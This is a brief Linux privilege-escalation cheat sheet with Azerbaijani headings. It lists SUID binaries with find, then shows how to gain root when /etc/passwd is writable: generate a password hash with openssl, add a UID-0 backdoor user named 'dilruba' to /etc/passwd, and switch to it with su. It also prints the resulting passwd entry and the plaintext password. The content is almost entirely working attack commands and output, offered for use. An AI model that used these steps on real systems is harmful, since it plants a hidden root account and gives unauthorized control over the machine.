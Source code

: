 ## SHOWING SUID
 find / -perm -u=s -type f 2>/dev/null



## ROOTA QALXMAQ etc/passwd -e yaza biliriksə

# Yaratma qaydası



user7@polobox:/$ openssl passwd -1
Password:
Verifying - Password:
$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
user7@polobox:/$ ^C
user7@polobox:/$ nano /etc/passwd
user7@polobox:/$ su dilruba



# Nəticə

dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
passwd----dil1123
